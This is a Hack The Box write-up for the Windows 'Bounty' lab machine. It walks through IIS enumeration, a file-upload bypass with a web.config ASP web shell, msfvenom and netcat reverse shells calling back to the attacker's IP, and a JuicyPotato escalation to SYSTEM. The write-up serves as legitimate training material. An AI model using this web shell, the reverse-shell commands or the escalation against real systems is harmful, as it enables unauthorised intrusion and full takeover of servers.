 ```yaml
---
description: https://app.hackthebox.com/machines/Bounty
---
```


# Bounty

## Nmap

```
sudo nmap 10.10.10.93 -p- -sS -sV

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Web Server

Browsing to the hosted web server we are greeted with an image of a wizard.

<figure><img src="../../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

### Directory Brute Forcing

As there is nothing else to obtain from this page, even after checking the page source we can move on to directory brute forcing with `feroxbuster`.

Using the large files word list from `seclists` we discover the existence of `transfer.aspx`.

```
feroxbuster -u http://10.10.10.93 -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt 
```

<figure><img src="../../../.gitbook/assets/image (8) (2) (2).png" alt=""><figcaption></figcaption></figure>

Browsing to the `transfer.aspx` page we are given a opportunity to select a file for upload.

<figure><img src="../../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

### File Upload - Web Shell

Going straight in and attempting to upload an `.aspx` reverse shell we see through `Burpsuite` that we are given an error due to an invalid file.

<figure><img src="../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

In order to discover allowed file types I sent the request to Intruder and fuzzed the `.aspx` extension with a list of most common extensions.

Once completed sorting the results by length we see that responses with a length of 1350 indicate file upload was successful.

<figure><img src="../../../.gitbook/assets/image (10) (1) (2).png" alt=""><figcaption></figcaption></figure>

Most interesting  from the results is the `.config` file extension. This can be used against IIS servers for gaining web shells and reverse shells under the right circumstances.

The blog post linked below covers various ways of exploiting this:

**URL:** [https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

We are going to use a web shell as shown below. Save the contents in a file called `web.config`.

**Web.config Web Shell:** [https://github.com/tennc/webshell/blob/master/aspx/web.config](https://github.com/tennc/webshell/blob/master/aspx/web.config)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!--
<%
Response.Write("-"&"->")
Function GetCommandOutput(command)
    Set shell = CreateObject("WScript.Shell")
    Set exec = shell.Exec(command)
    GetCommandOutput = exec.StdOut.ReadAll
End Function
Response.Write(GetCommandOutput("cmd /c " + Request("cmd")))
Response.Write("<!-"&"-")
%>
-->
```

After saving the contents upload the web.config file to the target system. After uploading we see through the response in `Burpsuite` that the file upload was successful.

<figure><img src="../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

After uploading the file we still need to discover where to access it from. Using `feroxbuster` again with a different directory word list we soon discover the directory `/UploadedFiles/`.

<figure><img src="../../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

Using Burpsuite we sent a GET request to [`http://10.10.10.93/UploadedFiles/web.config?cmd=whoami`](http://10.10.10.93/UploadedFiles/web.config?cmd=whoami). Where we have append the command we wish to run.

Looking at the response, we see we are executing commands in the context of the user merlin.

<figure><img src="../../../.gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

### A Better Shell

We can now use the web shell to gain a proper shell.

<pre class="language-bash"><code class="lang-bash"><strong># Set up SMB server on attacking system
</strong><strong>smbserver.py -smb2support Share ~/bounty
</strong>
# Create reverse shell in same directory
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=4444 -f exe -o reverse.exe
</code></pre>

After setting up as per the above commands use the web shell to execute the `msfvenom` payload.

<figure><img src="../../../.gitbook/assets/image (9) (2).png" alt=""><figcaption></figcaption></figure>

Where out `netcat` listener should catch the shell.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### User Flag

Moving into merlin's Desktop directory we notice initially that it is empty. Running the command `dir /a` shows reveals hidden files, where we can now grab the `user.txt` flag.

<figure><img src="../../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

Moving onto privilege escalation we perform the basics by checking our current user privileges with `whoami /priv`.

<figure><img src="../../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

With the privilege `SeImpersonatePrivilege` we may be able to perform a [JuicyPotato](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato) attack to escalate privileges depending on the operating system version.

<figure><img src="../../../.gitbook/assets/image (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

In order to identify the correct CLSID to use we can either painstakingly guess or we can use a batch script to test for each possibility.&#x20;

Download the files below:

**Windows Server 2008 R2 Datacenter CLSID:** [https://github.com/ohpe/juicy-potato/blob/master/CLSID/Windows\_Server\_2008\_R2\_Enterprise/CLSID.list](https://github.com/ohpe/juicy-potato/blob/master/CLSID/Windows\_Server\_2008\_R2\_Enterprise/CLSID.list)

**test\_clsid.bat:** [https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat)

**JuicyPotato.exe:** [https://github.com/ohpe/juicy-potato/releases/tag/v0.1](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)

Place them in the specified folder for the SMB server we set up earlier and then on the target system copy them over.

```
copy \\10.10.14.6\Share\test_clsid.bat test_clsid.bat
copy \\10.10.14.6\Share\CLSID.list CLSID.list
copy \\10.10.14.6\Share\JuicyPotato.exe JuicyPotato.exe
```

Once downloaded run the batch file.

```
test_clsid.bat
```

This will test all possible CLSID's for Windows Server 2008.

<figure><img src="../../../.gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

Once completed we can check the result.log file for CLSID's which will work. From here make a note of any that are running under SYSTEM.

<figure><img src="../../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>

To stage that attack we also need a copy of `nc.exe` on the target system. Again, place the file on our `SMB` share and copy the binary over.

Copy over `nc.exe`.

```
copy \\10.10.14.6\Share\nc.exe nc.exe
```

From here build the attack to call back to  a listening ports on the attacking system.&#x20;

```
juicypotato.exe -l 1234 -p nc.exe -a " -nv 10.10.14.6 4455 -e cmd.exe" -t * -c {659cdea7-489e-11d9-a9cd-000d56965251}
```

* \-l : Create a listening port
* \-p: Program to launch
* \-a: use the following arguments
* \-t: createprocess call: CreateProcessWithTokenW, CreateProcessAsUser, <\*> try both
* \-c: {CLSID}

After running the command we should be given confirmation as shown below:

<figure><img src="../../../.gitbook/assets/image (7) (1) (3).png" alt=""><figcaption></figcaption></figure>

As well as receiving a **SYSTEM** shell on our listener.

<figure><img src="../../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

### Root Flag

From here we are able to retrieve the `root.txt` flag.

<figure><img src="../../../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>
